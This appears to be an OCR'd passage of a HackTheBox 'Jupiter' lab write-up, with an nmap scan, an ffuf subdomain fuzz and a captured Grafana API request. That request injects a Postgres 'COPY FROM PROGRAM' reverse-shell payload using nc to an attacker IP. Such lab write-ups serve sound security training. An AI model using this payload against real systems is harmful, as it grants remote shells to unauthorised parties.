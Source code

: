 
| PORT | STATE | SERVICE | VERSION                                   |
|------|-------|---------|-------------------------------------------|
| 22/tcp | open  | ssh     | OpenSSH 8.9p1 Ubuntu 3ubuntu0.1           |
|      |       |         |   (Ubuntu Linux; protocol 2.0)             |
|      |       |         |   SSH Hostkey:                             |
|      |       |         |     - ECDSA: 256 ac:5b:be:79:2d:c9:7a:00:ed:9a:e6:2b:2d:0e:9b:32 |
|      |       |         |     - ED25519: 256 60:01:d7:db:92:7b:13:f0:ba:20:c6:c9:00:a7:1b:41 |
| 80/tcp | open  | http    | nginx 1.18.0 (Ubuntu)                      |
|      |       |         |   HTTP Server Header: nginx/1.18.0 (Ubuntu) |
|      |       |         |   http-title: Did not follow redirect to http://jupiter.htb/ |
|      |       |         |                                           |
| Service Info:                             |                                           |
| OS   | CPE                     |                                           |
| Linux | cpe:/o:linux:linux_kernel |                                           |


# FUZZER

|   | Method | URL | Wordlist | Header | Follow Redirects | Calibration | Timeout | Threads | Matcher | Filter |
|---|--------|-----|----------|--------|------------------|-------------|---------|---------|---------|--------|
| **Info** | GET | http://jupiter.htb | FUZZ: /home/aexon/tools/wordlist/SecLists-master/Discovery/DNS/subdomains-top1million-110000.txt | Host: FUZZ.jupiter.htb | false | false | 10 | 40 | Response status: 200-299,301,302,307,401,403,405,500 | Response size: 178 |
| **Results** | kiosk | [Status: 200, Size: 34390, Words: 2150, Lines: 212, Duration: 87ms] | | | | | | | | |



```json
POST /api/ds/query HTTP/1.1
Host: kiosk.jupiter.htb
Content-Length: 608
x-plugin-id: postgres
x-grafana-org-id: 1
x-panel-id: 24
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
content-type: application/json
accept: application/json, text/plain, */*
x-dashboard-uid: jMgFGfA4z
x-datasource-uid: YItSLg-Vz
Origin: http://kiosk.jupiter.htb
Referer: http://kiosk.jupiter.htb/d/jMgFGfA4z/moons?orgId=1&refresh=1d
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close

{
  "queries": [
    {
      "refId": "A",
      "datasource": {
        "type": "postgres",
        "uid": "YItSLg-Vz"
      },
      "rawSql": "COPY cmd_exec FROM PROGRAM 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.25 4444 >/tmp/f';",
      "format": "table",
      "datasourceId": 1,
      "intervalMs": 60000,
      "maxDataPoints": 940
    }
  ],
  "range": {
    "from": "2024-06-27T03:13:21.951Z",
    "to": "2024-06-27T09:13:21.951Z",
    "raw": {
      "from": "now-6h",
      "to": "now"
    }
  },
  "from": "1719458001951",
  "to": "1719479601951"
}

```


